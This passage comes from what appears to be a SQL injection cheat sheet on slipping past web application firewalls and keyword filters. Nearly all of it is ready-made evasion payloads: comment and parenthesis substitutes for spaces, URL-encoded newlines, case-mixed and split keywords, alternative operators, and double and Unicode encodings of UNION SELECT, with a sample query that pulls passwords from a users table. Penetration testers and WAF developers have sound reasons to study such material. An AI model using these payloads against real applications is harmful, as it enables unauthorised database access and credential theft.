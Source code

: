 ### Space Bypass

Used when WAFs or filters block spaces. Common in mod_security rules and basic WAFs:

```sql
# Original query with spaces (might be blocked):
SELECT password FROM users WHERE id=1

# Comment-based bypass - Uses SQL comments instead of spaces
SELECT/**/password/**/FROM/**/users/**/WHERE/**/id=1
# Useful when: Spaces are blocked but comments are allowed

# Parentheses method - Eliminates need for spaces
SELECT(password)FROM(users)WHERE(id=1)
# Useful when: Both spaces and comments are filtered

# Line breaks - Uses URL-encoded newlines
SELECT%0Apassword%0AFROM%0Ausers
# Useful when: Basic regex-based filters check for spaces
```

### Filter Bypass

Used when specific keywords are blacklisted. Common in application-level filters:

```sql
# Case variation - Bypasses case-sensitive filters
SeLeCt * fRoM uSeRs  # Many DBMSes are case-insensitive
# Useful when: Filters only check for exact keyword matches

# Alternate keywords - Bypasses keyword blacklists
SELECT -> [ALL, TOP 1]  # Alternative for SELECT
UNION -> [UNION ALL]    # Alternative for UNION
AND -> [&&, AND 1]      # Alternative for AND
# Useful when: Specific keywords are blacklisted but alternatives aren't

# Keyword splitting - Bypasses simple keyword matching
SE%0ALECT -> SELECT
U/**/NION -> UNION
# Useful when: Filters don't account for SQL comments or URL encoding
```

### Multi-Layer Encoding Bypass

Used to confuse WAF parsing mechanisms:

```sql
# Single URL encoding
UNION SELECT -> %55%4E%49%4F%4E%20%53%45%4C%45%43%54

# Double URL encoding
UNION -> %2555%254E%2549%254F%254E

# Unicode encoding
SELECT -> %u0053%u0045%u004C%u0045%u0043%u0054

# Mixed encoding
UNION/*%0ASELECT*/  # Combining comments and URL encoding

# Useful when: WAF only decodes input once or has limited decoding capabilities
```
